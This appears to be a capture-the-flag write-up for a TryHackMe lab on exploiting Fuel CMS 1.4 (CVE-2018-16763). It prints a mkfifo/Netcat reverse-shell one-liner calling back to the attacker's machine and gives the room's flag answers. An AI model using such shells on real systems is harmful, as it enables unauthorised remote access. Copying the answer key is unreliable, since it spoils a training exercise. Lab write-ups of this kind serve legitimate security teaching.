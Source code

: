![Vulnerability Capstone Banner](https://assets.tryhackme.com/additional/vulnerability-module/bug-banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnerabilitycapstone/Vulnerability_Capstone_Cover.png" alt="Vulnerability Capstone Logo">
</p>

# Vulnerability Capstone

This guide contains the answer and steps necessary to get to them for the [Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone) room.

###  Exploit the Machine (Flag Submission) 

1. What is the name of the application running on the vulnerable machine?

   The easiest first step to take is to navigate to the application through our browser.

   Here we get the name as well as the version of the application.

   ![Application](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnerabilitycapstone/Vulnerability_Capstone_Application.png)

   ><details><summary>Click for answer</summary>Fuel CMS</details>

2. What is the version number of this application?

   The answer we can find in the previous image.

   ><details><summary>Click for answer</summary>1.4</details>

3. What is the number of the CVE that allows an attacker to remotely execute code on this application?

   To find any exploit for this specific version of Fuel CMS we can look it up on exploit-db. Here we see a CVE that we could use.

   ![Exploit](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnerabilitycapstone/Vulnerability_Capstone_Exploit.png)

   ><details><summary>Click for answer</summary>CVE-2018-16763</details>

Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.

Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

4. What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

   Since we are on Kali and have searchsploit installed, we can use the exploit file on our system located at `usr/share/exploitdb/exploits/linux/webapps/47138.py'.

   After some research it seems we need to modify the script since we are using Python 3. This will give us an error if we don't change anything.

   Instead of using `urllib.quote`, we must use `urllib.parse.quote`.

   I also changed the URL to reflect my attack machine and removed the proxy entry.

   ![Script](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnerabilitycapstone/Vulnerability_Capstone_Script.png)

   Now we can use this script to get our initial access to the vulnerable machine.

   ```cmd
   python3 47138.py
   ```

   To stabalize our shell we must first setup a Netcat listener with:

   ```cmd
   nc -nlvp 1337
   ```

   Then we execute the following command our our shell:

   ```cmd
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.78.136 1337 >/tmp/f
   ```

   ![Cmd](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnerabilitycapstone/Vulnerability_Capstone_Cmd.png)

   Now on our other terminal tab we can navigate the system to our flag.

   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/vulnerabilitycapstone/Vulnerability_Capstone_Flag.png)

   ><details><summary>Click for answer</summary>THM{ACKME_BLOG_HACKED}</details>
